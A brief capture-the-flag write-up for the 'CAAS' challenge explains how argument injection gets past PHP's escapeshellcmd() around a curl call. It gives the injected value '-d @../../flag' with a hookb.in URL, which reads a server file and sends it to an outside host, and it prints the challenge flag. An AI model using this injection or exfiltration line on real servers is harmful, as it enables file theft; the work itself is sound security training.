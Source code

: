 ### CAAS

#### Problem

- Hint : Outdated Alien technology has been found by the human resistance. The system might contain sensitive information that could be of use to us. Our experts are trying to find a way into the system. Can you help?
  This challenge will raise 43 euros for a good cause.

#### Writeup

- Analyze the given files, we can find that "curl -sL" is executed if we send a POST request with ip parameter
- But, it is passed from escapeshellcmd(), which escapes multiple cmds passed in the request.
- So, to fool escapeshellcmd() ,we follow instructions from <a href="https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md#curl">link</a>
- We spawn a hookbin url and pass the following request using postman
  `-d @../../flag https://hookb.in/lJ2wk1D18NcrXXZWdyND`
- -d options passed data and @ fetches the file for curl option.
- We get the flag - `CHTB{f1le_r3trieval_4s_a_s3rv1ce}`
